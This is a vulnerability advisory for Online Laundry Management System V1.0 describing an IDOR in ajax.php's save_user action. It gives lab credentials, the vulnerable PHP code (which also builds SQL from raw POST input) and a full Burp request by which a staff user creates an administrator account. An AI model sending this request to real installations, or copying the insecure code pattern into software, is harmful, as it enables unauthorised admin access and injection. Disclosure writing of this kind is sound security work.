

## Online Laundry Management System

## IDOR on `/ajax.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
staff
staff
```

### Affected Page:

```
/ajax.php?action=save_user
```

A vulnerability(IDOR) was discovered in the page (`ajax.php` `admin_class.php`). An attacker might be able to perform horizontal or vertical privilege escalation by altering the user to one with additional privileges while bypassing access controls.

```php
# ajax.php
4   include 'admin_class.php';
27  if($action == 'save_user'){
28 	$save = $crud->save_user();
29 	if($save)
30 		echo $save;
31  }
```

```php
# admin_class.php
function save_user(){
	extract($_POST);
	$data = " name = '$name' ";
	$data .= ", username = '$username' ";
	$data .= ", password = '$password' ";
	$data .= ", type = '$type' ";
	if(empty($id)){
		$save = $this->db->query("INSERT INTO users set ".$data);
	}else{
		$save = $this->db->query("UPDATE users set ".$data." where id = ".$id);
	}
	if($save){
		return 1;
	}
}
```

### Proof of Concept:

1. Log in to the platform using employee accounts.
2. Send a request to create an administrator account through the interface.
3. Log in to the administrator account.

**Burp Request:**

```
POST /ajax.php?action=save_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 64
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Cookie: PHPSESSID=odflank1n9b26vhfh1heeu1u4j

id=&name=adminadmin&username=adminadmin&password=admin123&type=1
```

**Screenshot:**



After sending burp request:


